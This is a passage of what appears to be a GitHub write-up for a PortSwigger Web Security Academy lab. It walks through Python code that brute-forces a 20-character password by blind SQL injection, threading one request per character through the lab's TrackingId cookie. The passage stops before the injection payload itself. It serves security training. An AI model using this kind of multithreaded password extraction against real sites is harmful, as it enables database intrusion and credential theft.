         # Assume some of the info already known, like password length and table etc.
        password_leng = 20 # length of the password
        password_leng_range = password_leng + 1
        password = [""] * password_leng_range # ignored 0, boc name of threads start from 1

        thread_list = []
        ascii_val = [*range(48, 58), *range(97, 123)] # list of ascii values [0-9 and a-z] as per lab requirement 
        ```
        <br>
        
     - **User inputs:** When the program executes, it takes Lab URL from the user.

        ```        
        if __name__ == "__main__":
            # User input URL
            k_url = input("Enter Lab URL: ").strip().rstrip("/")

            if not k_url:
              print()
              print("[-] Error! Input variable missing.")
              print("[-] URL: https://a...........c2.web-security-academy.net")
              sys.exit()
            else:
              start_t = time()
              main()
              end_t = time()
              print("[-] Execution Time: %.5f seconds" % (end_t - start_t))
        ```     
     
        - Enter URL: Get lab URL from your browser address bar and paste it.

        - Tracking Id & Session, Code will get these 2 values from Lab URL.
    <br>

    - **Main Function:** After giving the required input the main function is called.

        ```        
        def main():
          print()
          print("[*] Processing...")

          sn = requests.Session()
          
          # Get tracking Id
          r = sn.get(k_url, proxies=proxy_urls, verify=False).cookies.get_dict()
          tracking_id = r['TrackingId']
          session_id = r['session']

          for i in range(1, password_leng_range):
            t = threading.Thread(target=send_req, name="p-%d" %i, args=(sn, i, tracking_id, session_id))
            t.start()
            thread_list.append(t)

